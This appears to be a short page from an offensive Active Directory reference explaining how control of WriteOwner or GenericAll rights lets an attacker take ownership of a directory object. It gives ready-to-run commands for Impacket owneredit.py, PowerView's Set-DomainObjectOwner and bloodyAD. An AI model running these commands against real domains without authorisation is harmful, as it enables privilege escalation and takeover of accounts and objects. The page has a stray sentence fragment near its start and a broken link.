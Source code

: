 # Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](broken-reference).&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

:warning: _At the time of writing, May 14th 2022, the_ [_Pull Request (#1323)_](https://github.com/SecureAuthCorp/impacket/pull/1323) _is still pending._

```bash
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```
{% endtab %}

{% tab title="Windows/Linux" %}
It can also be achieved with a python tool as [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host $DomainController -d $DOMAIN -u $ControlledUser -p $Password set owner $TargetObject $ControlledPrincipal
```
{% endtab %}

{% endtabs %}
